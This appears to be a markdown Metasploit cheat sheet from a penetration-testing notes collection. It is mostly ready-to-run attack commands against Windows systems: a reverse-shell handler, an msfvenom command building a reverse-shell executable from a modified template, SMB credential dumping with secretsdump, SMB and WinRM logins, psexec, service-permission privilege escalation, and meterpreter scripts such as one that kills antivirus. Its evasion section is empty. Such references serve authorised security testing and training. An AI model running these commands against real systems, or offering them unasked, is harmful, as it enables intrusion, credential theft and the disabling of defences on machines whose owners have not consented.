# Metasploit - Cheat Sheet

## Core

### Jobs
```ruby
#List Jobs
jobs -l
#Kill all Jobs
jobs -K
#Kill single Job by ID
jobs -k 1
```

### Module

```ruby
#navigate through different active modules
use exploit/multi/handler
#push module on stack
pushm
use post/multi/recon/local_exploit_suggester
set session 1
use scanner/smb/smb_login
#list stack
listm
[*] Module stack:

[1]     post/multi/recon/local_exploit_suggester
[0]     exploit/multi/handler
#go to previous module and delete it from the stack
popm
```

### Run (Backgroundjob)

```ruby
use exploit/multi/handler
run -p windows/shell/reverse_tcp lhost=0.0.0.0 lport=443 -j
```

### Sessions
```ruby
#List Sessions
sessions
#Select Session
sessions -i 1
```

### Search

```ruby
msf> search platform:windows port:135 target:XP type:exploit
#list available keywords
msf>help search
```
## Custom

### Custom Termplates

#### x64 template

`metasploit-framework/data/templates/src/pe/exe/template_x64_windows.asm`

change 4096 to 8192

compile:

```batch
C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.38.33130\bin\Hostx64\x64>ml64.exe c:\tmp\template_x64_windows.asm /link /subsystem:windows /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.22621.0\um\x64\kernel32.Lib" /entry:main
```

msfvenom:

```bash
msfvenom -x template_x64_windows.asm -p windows/x64/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4500 -f exe > file.exe
```

## Database

Initialize a Database with `root@kali:~# msfdb init`

```ruby
msf6 > db_connect user:pass@localhost/msf
msf6 > db_status
msf6 > workspace
msf6 > workspace -a new_ws
msf6 > db_nmap -sP 192.168.2.0/24
msf6 > hosts
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > hosts -R
msf6 auxiliary(scanner/portscan/tcp) > run
```


## Meterpreter

### Modules

Liste Module
```cmd
load -l
```

### Scripts

[Reference](https://www.offsec.com/metasploit-unleashed/existing-scripts/)

```shell
meterpreter > run scriptname
```

| Scriptname        | Action                            |
| ----------------- | --------------------------------- |
| checkvm           | check if target system is a VM    |
| getcountermeasure | checks security settings          |
| getgui            | try to enable RDP                 |
| get_local_subnets | list local subnets                |
| gettelnet         | enable telnet                     |
| hostsedit         | edit the hosts file               |
| killav            | try to kill antivirus             |
| remotewinenum     | enumerate system information      |
| scraper           | enumerate more system information |
| winenum           | detailed windows enumeration      |

## Modules

### Auxiliary
#### SMB
##### Impacket Secretsdump

```ruby
use scanner/smb/impacket/secretsdump
set RHOSTS 192.168.1.1
set SMBDOMAIN domain
set SMBUSER user
set SMBPASS pass
```

##### SMB Login
```ruby
use scanner/smb/smb_login
auxiliary(scanner/smb/smb_login) > run CreateSession=true RHOSTS=172.14.2.164 RPORT=445 SMBDomain=windomain.local SMBPass=password SMBUser=username
sessions -i 1
```

#### WinRM
##### WinRM_Login
```ruby
use scanner/winrm/winrm_login
run CreateSession=true RHOSTS=172.14.2.164 SMBDomain=windomain.local SMBPass=password SMBUser=username
```

### Evasion
#### Windows Defender Exe
```ruby
set 
```
### Post
#### SMB PsExec
```ruby
use exploit/windows/smb/psexec
set rhost 127.0.0.1
set smbuser mega-admin
set smbpass p4ss
run
```
#### Local Exploit Suggester
```ruby
use post/multi/recon/local_exploit_suggester
set SESSION 1
```

#### Upgrade Shell to Meterpreter
```ruby
use post/multi/manage/shell_to_meterpreter
set SESSION 1
```

### Privilege Escalation

#### Service

```ruby
use exploit/windows/local/service_permissions
run lhost=0.0.0.0 lport=12222
```


#### UAC Enumeration

```ruby
use post/windows/gather/win_privs
set SESSION 1
```

## Plugins

### Alias

```ruby
load alias
alias s set
alias sg setg
```

### wiki

```ruby
load wiki

Wiki Commands
=============

    Command           Description
    -------           -----------
    dokuwiki          Outputs data from the current workspace in dokuwiki markup.
    mediawiki         Outputs data from the current workspace in mediawiki markup.

```
